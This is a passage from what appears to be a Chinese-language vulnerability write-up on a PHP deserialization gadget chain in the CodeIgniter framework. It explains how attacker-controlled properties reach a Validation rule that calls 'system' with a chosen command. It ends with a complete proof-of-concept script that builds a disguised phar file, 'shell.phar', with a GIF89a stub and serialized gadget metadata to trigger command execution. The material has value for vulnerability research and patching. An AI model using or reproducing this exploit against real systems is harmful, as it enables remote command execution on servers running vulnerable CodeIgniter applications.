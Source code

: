 我们是可控的，那么这里也就满足了$data['DBGroup']  
可控  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DibMxurmMHzbdGdvt8Ad0FVJPfLLpC57CZViaZPQVkeQxoaHiczSTOGdSdb7ic1WFu8jq2KjxM07fhCPLDXcDuLRfQ/640?wx_fmt=png&from=appmsg "")  
  
所以这里我们只需要把$indexes  
的值控制为DBGroup  
就行了，也就是$rField  
的值控制为DBGroup  
，这就实现了$value  
的值可控  
  
现在，run  
方法里面，$rField  
和$rSetup  
可控，$rules  
的可控,$value  
可控，带着这些条件我们进入processRules  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DibMxurmMHzbdGdvt8Ad0FVJPfLLpC57CFFONhtHLTh2wzgX1ZnaxPW4SQGhZvBFBiaqKRZDmQcHdWcewyN2G0vQ/640?wx_fmt=png&from=appmsg "")  
  
processRules  
的这个地方，就可以通过控制好值来执行命令了，$rules  
的值控制为system  
，$value  
的值为calc  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DibMxurmMHzbdGdvt8Ad0FVJPfLLpC57CnrByhWUQGLdbsVibmWT4uBXMeacKf5msW4PQpZmZWvyVC417Vaqn4VQ/640?wx_fmt=png&from=appmsg "")  
  
POC以及复现过程  
```
<?phpnamespace CodeIgniter\Cache\Handlers {    use CodeIgniter\Session\Handlers\MemcachedHandler;    class RedisHandler {        protected $redis;        public function __construct(MemcachedHandler $memcachedHandler) {            $this->redis = $memcachedHandler;        }    }}namespace CodeIgniter\Session\Handlers {    use CodeIgniter\Model;    use CodeIgniter\Validation\Validation;    class MemcachedHandler {        protected $memcached;        public $lockKey;        public function __construct($lockKey = '123', Model $model = null) {            $this->lockKey = $lockKey;            $this->memcached = $model ?: new Model(new Validation());        }    }}namespace CodeIgniter {    use CodeIgniter\Validation\Validation;    abstract class BaseModel {    }    class Model extends BaseModel {        public $validation;        public $tempAllowCallbacks;        public $beforeDelete;        public $validationRules;        public $cleanValidationRules;        public $DBGroup;        public function __construct(Validation $validation,$cmd = 'calc') {  //这里控制执行的命令            $this->validation = $validation;            $this->tempAllowCallbacks = true;            $this->beforeDelete = ['abc' => 'validate'];            $this->validationRules = 'rules';            $this->DBGroup = $cmd;            $this->cleanValidationRules = false;        }    }}namespace CodeIgniter\Validation {    class Validation {        protected $config;        protected $rules = [];        protected $ruleSetFiles;        public function __construct() {            $this->config = $this;            $this->rules = ['DBGroup' => 'system'];            $this->ruleSetFiles = [0 => 'stdClass'];        }    }}namespace {    use CodeIgniter\Cache\Handlers\RedisHandler;    use CodeIgniter\Session\Handlers\MemcachedHandler;    $memcachedHandler = new MemcachedHandler();    $redisHandler = new RedisHandler($memcachedHandler);    $phar = new Phar("shell.phar"); //生成phar文件    $phar->startBuffering();    $phar->setStub("GIF89a"." __HALT_COMPILER(); ?>"); //设置stub    $phar->setMetadata($redisHandler);     $phar->addFromString("test.txt", "test");     $phar->stopBuffering();    //print_r(urlencode(serialize($o)));}
```  
  